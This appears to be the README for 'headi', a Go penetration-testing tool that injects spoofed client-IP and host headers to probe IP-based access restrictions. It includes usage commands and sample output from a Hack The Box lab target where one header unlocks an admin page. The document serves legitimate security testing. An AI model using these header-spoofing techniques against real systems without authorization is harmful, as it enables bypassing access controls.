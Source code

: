 # headi
Customisable and automated HTTP header injection

## Install
```
go get github.com/mlcsec/headi
```

## Headers
Injects the following HTTP headers:
* X-Originating-IP
* X-Forwarded-For
* X-Remote-IP
* X-Remote-Addr
* X-Client-IP
* X-Host
* X-Forwarded-Host
* Origin
* Host


## Examples
Two options for HTTP header injection:

1. Default payloads (127.0.0.1, localhost, etc.) are injected into the headers mentioned above
2. Custom payloads can be supplied (e.g. you've enumerated some internal IPs or domains) using the `pfile` parameter

```
$ headi
  -pfile string
    	payload file
  -t int
    	timeout (milliseconds) (default 10000)
  -url string
    	target URL
```
Currently only takes one URL as input but you can easily bash script for numerous URLs like so:
```
$ for i in $(cat urls); do headi -url $i;done
```

## Output
Output is structured in the following format:
```
[URL] [Header: payload] [Status code] [Content length]
```
An example is provided below from the HTB machine Control:
```
$ headi -pfile addr -url http://10.10.10.167/admin.php
[*] [http://10.10.10.167/admin.php] [X-Originating-IP: 192.168.4.28]  [Code: 200] [Size: 89]
[*] [http://10.10.10.167/admin.php] [X-Forwarded-For: 192.168.4.28]  [Code: 200] [Size: 7933]
[*] [http://10.10.10.167/admin.php] [X-Remote-IP: 192.168.4.28]  [Code: 200] [Size: 89]
[*] [http://10.10.10.167/admin.php] [X-Remote-Addr: 192.168.4.28]  [Code: 200] [Size: 89]
[*] [http://10.10.10.167/admin.php] [X-Client-IP: 192.168.4.28]  [Code: 200] [Size: 89]
[*] [http://10.10.10.167/admin.php] [X-Host: 192.168.4.28]  [Code: 200] [Size: 89]
[*] [http://10.10.10.167/admin.php] [X-Forwarded-Host: 192.168.4.28]  [Code: 200] [Size: 89]
[*] [http://10.10.10.167/admin.php] [Origin: 192.168.4.28]  [Code: 200] [Size: 89]
[*] [http://10.10.10.167/admin.php] [Host: 192.168.4.28]  [Code: 200] [Size: 89]
```

